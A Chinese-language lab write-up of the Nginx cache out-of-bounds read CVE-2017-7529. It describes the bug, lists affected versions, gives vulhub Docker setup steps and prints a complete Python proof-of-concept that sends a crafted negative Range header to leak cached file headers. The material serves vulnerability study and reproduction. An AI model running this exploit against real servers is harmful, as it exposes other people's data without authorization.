 # Nginx越界读取缓存漏洞 CVE-2017-7529

## 漏洞描述

Nginx在反向代理站点的时候，通常会将一些文件进行缓存，特别是静态文件。缓存的部分存储在文件中，每个缓存文件包括“文件头”+“HTTP返回包头”+“HTTP返回包体”。如果二次请求命中了该缓存文件，则Nginx会直接将该文件中的“HTTP返回包体”返回给用户。

如果我的请求中包含Range头，Nginx将会根据我指定的start和end位置，返回指定长度的内容。而如果我构造了两个负的位置，如(-600, -9223372036854774591)，将可能读取到负位置的数据。如果这次请求又命中了缓存文件，则可能就可以读取到缓存文件中位于“HTTP返回包体”前的“文件头”、“HTTP返回包头”等内容。

## 影响版本

```
Nginx version 0.5.6 - 1.13.2
```

## 环境搭建

```plain
git clone https://github.com/vulhub/vulhub.git
cd vulhub/nginx/CVE-2017-7529
docker-compose up -d
```

访问 http://xxx.xxx.xxx.xxx:8080 正常即可

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202206011714686.png)

## 漏洞复现

使用目录下的POC进行验证

```plain
python poc.py http://xxx.xxx.xxx.xxx:8080/
```

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202206011713645.png)

## 漏洞POC

```python
#!/usr/bin/env python
import sys
import requests

if len(sys.argv) < 2:
    print("%s url" % (sys.argv[0]))
    print("eg: python %s http://your-ip:8080/" % (sys.argv[0]))
    sys.exit()

headers = {
    'User-Agent': "Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/42.0.2311.135 Safari/537.36 Edge/12.10240"
}
offset = 605
url = sys.argv[1]
file_len = len(requests.get(url, headers=headers).content)
n = file_len + offset
headers['Range'] = "bytes=-%d,-%d" % (
    n, 0x8000000000000000 - n)

r = requests.get(url, headers=headers)
```